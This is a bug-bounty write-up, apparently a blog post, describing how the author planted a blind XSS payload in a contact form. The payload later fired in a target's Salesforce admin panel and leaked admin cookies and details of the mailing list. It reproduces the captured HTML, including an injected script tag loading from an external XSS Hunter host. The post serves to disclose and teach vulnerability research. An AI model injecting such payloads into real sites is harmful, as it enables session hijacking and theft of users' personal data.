



# :globe_with_meridians: How I was able to leak your session token-A story of blind XSS in an admin panel at redacted.com

---

# How I was able to leak your session token-A story of blind XSS in an admin panel at redacted.com

Two day’s after submitting my report for a critical Server Side Request Forgery bug i found on a program —  i woke up to an email alert notifying me that my XSS hunter payload had been triggered on one of the target’s subdomains.

Blind XSS vulnerabilities are a variant of persistent XSS vulnerabilities. They occur when the attacker input is saved by the server and displayed in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded. The attacker input can be executed in a completely different application (for example an internal application where the administrator reviews the access logs or the application exceptions). Reference here: [https://www.e-spincorp.com/documentation/blind-cross-site-scripting-xss-attack-vulnerability-alert-and-solution/](https://www.e-spincorp.com/documentation/blind-cross-site-scripting-xss-attack-vulnerability-alert-and-solution/)

It so happen’s that this is exactly what happened. As i was walking through the application the previous day, I came across a Contact page which the target used to capture certain details from the website visitor. Naturally, enter my blind XSS payload into each text field and submitted the form. This included the First Name, Last Name, Organization and description fields. Having done that, i retired for the night not really expecting any positive outcome as my earlier attempts at finding blind XSS hadn’t produced any positive results so far.

## Get Mase289’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

I woke up the next morning, had my breakfast and checked my email to find a notification from XSS hunter indicating that my payload had fired in a backend salesforce panel.







*Xss Fired at https://redacted.target.com/*

I was in luck! Reading through the html report revealed a DOM element in which my payload was reflected.

```
<script src="/jslibrary/1581015810224/sfdc/Security.js"></script><;</script><script src="[https://xvt.xss.ht/](https://xvt.xss.ht/)"></script></head><body onunload="if(this.bodyOnUnload)bodyOnUnload();" onbeforeunload="if(this.bodyOnBeforeUnload){var s=bodyOnBeforeUnload();if(s)return s;}" onload="if(this.bodyOnLoad)bodyOnLoad();" class="hasMotif leadTab apexPageInline sfdcBody brandQuaternaryBgr ext-webkit ext-chrome ext-mac" onfocus="if(this.bodyOnFocus)bodyOnFocus();" marginwidth="0" marginheight="0">

```

The report also captured the vulnerable page URL, User IP address, Referrer agent, Cookies of the admin user and a screenshot of a MailChimp interface that was used to administer the target’s mailing list subscriber’s. The titles of these emails indicated that some of these lists were used for internal company events.




*Notification from XSS hunter*

Needless to say, this vulnerability could have allowed a malicious actor to leak sensitive PII from the administrative panel and potentially allow her/him to steal the admins' session token thereby accessing the application on behalf of the admin.

The bug was triaged with severity set to high.

Hope you find this write up useful. Open to any comments or other form of feedback. Good luck and happy hunting!

---
